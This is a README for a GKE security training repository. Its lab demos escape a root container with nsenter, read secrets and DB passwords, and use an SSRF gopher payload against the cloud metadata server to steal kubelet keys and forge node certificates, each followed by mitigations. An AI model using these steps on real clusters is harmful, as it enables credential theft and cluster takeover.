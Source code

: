 # training-gke-security
This repository is for demo of training of GKE Security

[![Open in Cloud Shell](http://gstatic.com/cloudssh/images/open-btn.png)](https://console.cloud.google.com/cloudshell/open?git_repo=https://github.com/rung/training-gke-security&page=editor&cloudshell_tutorial=README.md)

## Preparation
#### Set project id
```
PROJECT_ID="Your Project Name"
```

```
gcloud config set project $PROJECT_ID
```

#### Enable GKE API
```bash
gcloud services enable container.googleapis.com
```

#### Create GKE Cluster
```bash
gcloud container clusters create gke-security-testing --zone us-central1-a --machine-type g1-small --num-nodes 3 --async
```
- You can check the status on [console](https://console.cloud.google.com/kubernetes/list)

#### Get a credential of GKE
```bash
gcloud container clusters get-credentials gke-security-testing --zone=us-central1-a
```

#### Testing
```
kubectl get node
```

#### Deploy web server
```
kubectl apply -f manifest/ssrf_server/ -R
```
- Please don't expose deployment on the Internet through Service.

## Demo 1: PodSecurityPolicy
#### Run root container
```
kubectl apply -f manifest/root/pod.yaml
```

#### Enter root
```
kubectl exec -it root-container -- /bin/sh -c "nsenter --mount=/proc/1/ns/mnt -- /bin/bash"
```

#### Get credentials
```
kubectl --kubeconfig /var/lib/kubelet/kubeconfig get secret dummy-secret -o yaml
```

#### Get credentials(method 2)
```
docker ps -q | xargs docker inspect --format='{{range .Config.Env}}{{println .}}{{end}}' | grep DB_Password
```

```
exit
```

#### How to block
  - RBAC
  - exec

## Demo 2: Workload Identity
#### Port-forward
```
kubectl port-forward deployment/ssrf-server 8080:8080 2>&1 >/dev/null &
```

#### Open Web Preview
<img src="https://github.com/rung/training-gke-security/raw/master/img/web-preview.png" width="320">

#### Input url (for testing)
```
https://www.google.com
```

#### Input malicious url
#### Get kubelet key
```
gopher://169.254.169.254:80/_GET /computeMetadata/v1/instance/attributes/kube-env?alt=json HTTP/1.1%0d%0aMetadata-Flavor: Google%0d%0aConnection: Close%0d%0a%0d%0a
```
It contains "KUBELET_KEY".

#### Save the metadata to metadata-script/metadata.txt
```
cd metadata-script
```

```
curl -X POST 'http://localhost:8080/get_contents' --data 'url=gopher%3A%2F%2F169.254.169.254%3A80%2F_GET+%2FcomputeMetadata%2Fv1%2Finstance%2Fattributes%2Fkube-env%3Falt%3Djson+HTTP%2F1.1%250d%250aMetadata-Flavor%3A+Google%250d%250aConnection%3A+Close%250d%250a%250d%250a' -o metadata.txt
```

- Move current kubeconfig file
```
mv ~/.kube/config ~/.kube/config.tmp
```
```
kubectl config get-contexts
```

#### Get node certificate
- Extract necessary data from metadata
```bash
bash extract.sh
ls -l metadata
```

- Send CSR and Get node certificate
```
bash make_cert.sh $(cat metadata/nodename)
```

#### Get credentials
- Set env vars
```
KUBE_OPT="--client-certificate newcert/node.crt --client-key newcert/new.key --certificate-authority metadata/ca.crt --server https://$(cat metadata/api_ip)" && echo $KUBE_OPT
```

- Get secretName
```
kubectl $KUBE_OPT describe pod | grep secret
```

- Get secret
```
kubectl $KUBE_OPT get secret dummy-secret -o yaml
```

- Move back kubeconfig file
```
mv ~/.kube/config.tmp ~/.kube/config
```
```
kubectl config get-contexts
```

#### (Reference) Get instance token (doesn't use it in this training)
```
gopher://169.254.169.254:80/_GET /computeMetadata/v1/instance/service-accounts/default/token HTTP/1.1%0d%0aMetadata-Flavor: Google%0d%0aConnection: Close%0d%0a%0d%0a
```

### How to block
#### [Workload Identity](https://cloud.google.com/kubernetes-engine/docs/how-to/workload-identity)
```
gcloud beta container clusters update gke-security-testing --identity-namespace=${PROJECT_ID}.svc.id.goog --region us-central1-a
```

```
cloud beta container node-pools update [NODEPOOL_NAME] \
  --cluster=[CLUSTER_NAME] \
  --workload-metadata-from-node=GKE_METADATA_SERVER
```

## (After this training) Delete cluster
```bash
gcloud container clusters delete gke-security-testing --zone us-central1-a --async
```

## References
- [SSRF in Exchange leads to ROOT access in all instances](https://hackerone.com/reports/341876)
- [Hacking Kubelet on Google Kubernetes Engine](https://www.4armed.com/blog/hacking-kubelet-on-gke/)
- [The Path Less Traveled: Abusing Kubernetes Defaults](https://speakerdeck.com/iancoldwater/the-path-less-traveled-abusing-kubernetes-defaults)
